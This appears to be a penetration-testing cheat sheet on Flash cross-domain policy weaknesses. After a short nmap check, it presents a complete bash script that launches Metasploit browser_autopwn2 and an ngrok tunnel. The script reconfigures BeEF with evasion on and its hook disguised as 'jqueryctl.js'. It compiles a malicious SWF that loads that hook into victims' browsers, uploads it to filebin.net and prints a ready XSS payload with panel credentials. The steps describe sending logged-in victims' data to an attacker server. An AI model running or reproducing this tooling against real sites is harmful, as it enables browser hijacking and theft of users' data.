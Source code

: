 # RIA Cross Domain Policy

## Check List

* [ ] Review and validate the policy files.

### Methodology

#### Overly Permissive Flash Cross-Domain Policy (crossdomain.xml / clientaccesspolicy.xml)

{% stepper %}
{% step %}
CrossDomain.xml & clientaccesspolicy.xml file
{% endstep %}

{% step %}
Check and identify the presence of crossdomain.xml & clientaccesspolicy.xml files on the target using Nmap command
{% endstep %}

{% step %}
If the files exist, we run them using the next command, which is a script related to BeEF
{% endstep %}

{% step %}
Vulnerability Conditions The `crossdomain.xml` file is overly permissive (`<allow-access-from domain="*">`) Sensitive data or actions are accessible on the target domain
{% endstep %}

{% step %}
Exploit Modify the ActionScript to fetch sensitive data from the target domain and send it to a malicious server Compile the ActionScript into an SWF file
{% endstep %}

{% step %}
Capture Data Use a script to capture stolen data from the victim when they load the malicious SWF Direct the victim to a page with the malicious SWF, ensuring they are logged into the target site Review the data captured on the malicious server for sensitive information
{% endstep %}
{% endstepper %}

***

## Cheat Sheet

### Check Policy Files Weakness

#### [Nmap](https://nmap.org/)

{% hint style="info" %}
Check crossdomain.xml & clientaccesspolicy.xml
{% endhint %}

```bash
nmap -p 80,443 \
     -sS -sV --mtu 5000 \
     --script http-cross-domain-policy \
     --script-args http-cross-domain-policy.domain-lookup=true $WEBSITE
```

### [BeEF](https://github.com/beefproject/beef) (SWF)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano beefer.sh
```

```bash
#!/bin/bash

RED='\e[1;31m'
GREEN='\e[1;32m'
YELLOW='\e[1;33m'
CYAN='\e[1;36m'
RESET='\e[0m'

# Check for ROOT
if [[ "$(id -u)" -ne 0 ]]; then
    printf "${RED}[X] Please run as ROOT...\n"
    printf "${GREEN}[*] sudo ./beef-csp-bypass.sh\n"
    exit 1
fi

# Get LAN and WAN IP addresses
LAN=$(hostname -I | awk '{print $1}')
WAN=$(curl -s https://api.ipify.org)

# Kill any running ngrok or ruby instances
pkill -f 'ngrok|ruby'

# Run Ngrok
msfconsole -qx "load msgrpc ServerHost=$LAN Pass=abc123 SSL=y;use auxiliary/server/browser_autopwn2;set LHOST $WAN;set URIPATH /pwn;run -z" >/dev/null 2>&1 &
sleep 1
ngrok http 3000 &>/dev/null &
sleep 3
NGHOST=$(curl -s http://127.0.0.1:4040/api/tunnels | jq -r .tunnels[0].public_url | sed 's|https://||')
printf "${GREEN}[*] ngrok started successfully...${RESET}\n"

# Config BeEF
if grep -q "https: false" /usr/share/beef-xss/config.yaml; then
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|#     host: "" # public|     host: "'$NGHOST'" # public|' \
           -e 's|#     port: "" # public|     port: "443" # public|g' \
           -e 's|#     https: false|     https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: "127.0.0.1"|host: "'$LAN'"|g' \
           -e 's|callback_host: "127.0.0.1"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
else
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|host: ".*" # public|host: "'$NGHOST'" # public|' \
           -e 's|port: ".*" # public|port: "443" # public|g' \
           -e 's|https: false|https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: ".*"|host: "'$LAN'"|g' \
           -e 's|callback_host: ".*"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
fi
printf "${GREEN}[*] BeEF with new configuration...${RESET}\n"

# Start BeEF XSS framework
cd /usr/share/beef-xss && ./beef -x &>/dev/null &

# Create the SWF payload
cat <<EOF > /tmp/beef.as
package {
    import flash.display.MovieClip;
    import flash.net.URLRequest;
    import flash.net.navigateToURL;

    public class beef extends MovieClip {
        public function beef() {
            var request:URLRequest = new URLRequest("javascript:function myFunction(){var x = document.createElement('SCRIPT');x.src='https://${NGHOST}/jqueryctl.js';document.body.appendChild(x);};myFunction();");
            navigateToURL(request);
        }
    }
}
EOF
/opt/flex-sdk/bin/mxmlc /tmp/beef.as -output /tmp/logo.swf &>/dev/null &
rm -f /tmp/beef.as
printf "${GREEN}[*] SWF payload generated successfully...${RESET}\n"

# Upload to Filebin and Display Payload
bin_id=$(curl -s https://filebin.net | grep -oP 'href="https://filebin.net/(\w+)"' | sed -E 's/href="https:\/\/filebin.net\/([a-zA-Z0-9]+)"/\1/')
curl -s -X POST "https://filebin.net/${bin_id}/logo.swf" -H "Content-Type: application/x-shockwave-flash" --data-binary "@/tmp/logo.swf"
rm -f /tmp/logo.swf
clear
printf "\n\n"
printf "${CYAN}XSS Payload:${RESET}\n"
printf "\n"
printf "${YELLOW}<object type=\"application/x-shockwave-flash\" data=\"https://filebin.net/${bin_id}/logo.swf\"><param name=\"movie\" value=\"https://filebin.net/${bin_id}/logo.swf\"></object>"
printf "\n"
printf "${CYAN}BeEF Panel: https://${NGHOST}/ui/panel${RESET}\n"
printf "${CYAN}BeEF USER: unk9vvn${RESET}\n"
printf "${CYAN}BeEF PASS: 00980098${RESET}\n"
printf "\n"
printf "${GREEN}BeEF Panel > Commands > Misc > Create Invisible Iframe > URL: http://$WAN:8080/pwn > Execute${RESET}\n"
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x beefer.sh;sudo ./beefer.sh
```
